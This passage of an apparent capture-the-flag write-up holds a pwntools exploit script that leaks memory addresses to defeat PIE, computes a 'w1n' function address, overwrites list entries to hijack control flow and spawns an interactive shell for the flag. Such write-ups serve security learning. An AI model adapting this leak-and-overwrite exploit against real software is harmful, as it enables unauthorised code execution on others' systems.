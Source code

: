 ```py
    io.sendlineafter(b'> ', b'4')
    io.sendlineafter(b'Index', idx)
    
def printfav(idx):
    io.sendlineafter(b'> ', b'5')
    io.sendlineafter(b'Index', idx)
    
def addfav(idx):
    io.sendlineafter(b'> ', b'6')
    io.sendlineafter(b'Index', idx)
       
enter(b'0', b'1', b'1')
enter(b'1', b'1', b'1')
enter(b'2', b'1', b'1')

sumVector(b'2')
loadfav(b'2')
printfav(b'2')

io.recvuntil(b'v = [')

leak=io.recvline().strip(b']\n').split()
# print(leak)

pie=int(leak[0])-0x35d
log.info('pie_base :' + hex(pie))

v_list=int(leak[1])-48
log.info('v_list array :' + hex(v_list))

sum=v_list+64
faves=sum+0x18
log.info('sum :' + hex(sum))
log.info('faves :' + hex(faves))

w1n=pie+0x0000000000009D2
system=pie+0x100
log.info('w1n :' + hex(w1n))
log.info('system :' + hex(system))

enter(b'0', str(w1n).encode(), str(w1n).encode())
enter(b'3',str(v_list-16).encode(), str(v_list-16).encode())

printsum() # trigger

#io.sendline(b'exec 1>&0')
io.interactive()
```

spawn shell & get flag:
